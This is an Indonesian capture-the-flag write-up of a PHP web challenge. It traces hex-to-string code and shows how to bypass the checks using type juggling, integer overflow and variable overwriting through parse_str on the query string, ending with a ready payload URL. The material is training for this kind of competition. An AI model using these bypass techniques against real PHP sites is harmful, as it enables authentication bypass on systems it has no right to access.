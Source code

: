 ## PHP Compare (Web Exploitation)

### Reference
- https://cxsecurity.com/issue/WLB-2007060061

### Proof of Concept
- Download source code 
```
http://chall.ctfs.me:8002/compare-us/
```
- Step by Step
	- Server meminta inputan ```$_GET['key']``` dan akan divalidasi oleh ```ctype_xdigit``` terlebih dahulu, jadi inputan harus mencakup bilangan hexa antara 1-9 dan A-F. [View code](compare.php#L6-L7)
	- Sekarang kita coba untuk *tracing* dari kode berikut ini. [View code](compare.php#L8-L9) 
	```php
	$A = "43544653"; // CTFS
	$e = implode('', array_map(function ($i, $A) {
	        return chr(hexdec($A{$i + $i} . $A{$i + ($i + 1)}));
	    }, list($m, $n, $o) = range(0, 2), array($A, $A, $A))
	);
	print "{$A} => {$e}" . PHP_EOL; // 43544653 => CTF
	``` 
	Output yang dikeluarkan hanya 3digit, karna dari callback ```array_map``` hanya meminta 3 array ```array($A, $A, $A)```, jadi inti dari kode diatas iyalah mengkonversi hexa to string dan mengeluarkan output max 3digit string, di line 9 terdapat pengecekan ```$e < 1 && $e > 0 && $e !== 0``` jadi kita dapat mengambil **0.5** antara 0 sampai 1.

	- Next dari *tracing* kode diatas kita mendapatkan ```$A = "302e35";``` lanjut ke pengecekan kode selanjutnya pada line 10. [View code](compare.php#L10) Pada pengecekan selanjutnya iyalah ```substr``` dan output yang dihasilkan harus kurang dari **-1** 

	```php
	$A = "302e359999999999999999999999999999999";
	$e = implode('', array_map(function ($i, $A) {
	        return chr(hexdec($A{$i + $i} . $A{$i + ($i + 1)}));
	    }, list($m, $n, $o) = range(0, 2), array($A, $A, $A))
	);
	print ((int) (substr($A, strlen($e) * 2) + 0)) . PHP_EOL; // -4571153621781053440
	```

	- Ternyata masih ada lagi pengecekan ```($check == $_GET['password'])``` karna sebelumnya ada ```parse_str($_SERVER['QUERY_STRING']);``` jadi kita dapat membypass dengan menambahkan ```check=0&password=0``` pada parameter url.

- Capture the flag :triangular_flag_on_post:
```
Payload : key=302e359999999999999999999999999999999&check=0&password=0
```
